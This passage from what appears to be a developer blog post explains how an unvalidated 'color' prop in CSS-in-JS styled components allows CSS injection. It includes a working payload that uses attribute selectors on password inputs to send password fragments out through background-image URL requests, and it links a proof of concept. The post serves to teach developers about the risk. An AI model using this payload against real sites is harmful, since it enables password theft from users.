 But styles are just styles, right? They can't be that scary...

### A password-stealing color

Say you want to allow users to pick the color of their profile page, just like you can on Twitter. This would be a pain in the ass with plain CSS, but CSS-in-JS makes it easy; you just add a `color` prop!

As it happens, a backend developer has kindly handled the API side of things for you, and now you have a `color` prop available in your styled components.

As your app is a single page app, the login form opens as an overlay over the profile. And since your backend developer stored the color in a text field without validation, a malicious user can now set a `color` that will steal some users' passwords:

<Aside>
<Details></Details>
</Aside>

```js
// - Add more selectors to get more info
// - You can use different types of attribute selectors too
// - Compare received values against a dictionary to make
//     a good guess from the data you have

var color = `#8233ff;
html:not(&) {
  input[value*="pa"] { background: url(https://localhost/?pa) }
  input[value*="as"] { background: url(https://localhost/?as) }
  input[value*="ss"] { background: url(https://localhost/?ss) }
  input[value*="sw"] { background: url(https://localhost/?sw) }
  input[value*="wo"] { background: url(https://localhost/?wo) }
  input[value*="or"] { background: url(https://localhost/?or) }
  input[value*="rd"] { background: url(https://localhost/?rd) }
}`
```

<Aside>
<Details></Details>
</Aside>

This works by using attribute selectors on the password field to change the background image depending on the current input. Here's what Chrome dev tools' network tab looks like after I type in 'password':

<img src={require('./stolen-password.png')} alt='Stolen password' />

While this attack can't steal *all* passwords, it'll still get quite a few of them. And a few stolen passwords is more than enough to ruin your day.

*Here's a [proof of concept](https://codesandbox.io/s/p3knyj14n0) in a codesandbox using styled-components.*


### A data-siphoning avatar

